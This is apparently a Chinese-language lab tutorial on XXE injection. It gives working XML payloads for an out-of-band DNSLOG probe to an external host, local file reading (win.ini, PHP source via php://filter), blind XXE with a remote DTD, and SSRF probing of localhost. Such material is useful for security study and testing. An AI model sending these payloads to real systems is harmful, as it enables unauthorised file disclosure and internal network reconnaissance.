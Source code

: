 

![图片](../../../../img/xxe_3.png)

DNSLOG

```
<?xml version="1.0" encoding="gbk" ?>
<!DOCTYPE ANY[  
<!ENTITY % remote SYSTEM "http://1ynlwb.dnslog.cn">  
%remote;
]> 
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```



![图片](../../../../img/xxe_4.png)

## 利用漏洞

协议列表：
php支持的协议:
![图片](../../../../img/xxe_5.png)
file协议需要知道绝对路径
php协议读php文件经过base64编码，php://filter/read=convert.base64‐encode/resource=config.php

### 读取文件

有回显

```
<?xml version="1.0" encoding="gbk" ?>
<!DOCTYPE ANY[  
<!ENTITY readfile SYSTEM "file:///c:/windows/win.ini">  
]>
<reset><login>&readfile;</login><secret>Any bugs?</secret></reset>
```



![图片](../../../../img/xxe_6.png)

无回显：

```
s<?xml version="1.0" encoding="gbk" ?>
<!DOCTYPE ANY[  
<!ENTITY % remote SYSTEM "http://192.168.0.6/testLinux.xml">  
%remote; 
]> 
```

### SSRF探测文件

```
<?xml version="1.0" encoding="gbk" ?>
<!DOCTYPE ANY[  
<!ENTITY test SYSTEM "http://127.0.0.1:80/index.php">  
]>
<reset><login>&test;</login><secret>Any bugs?</secret></reset>
```
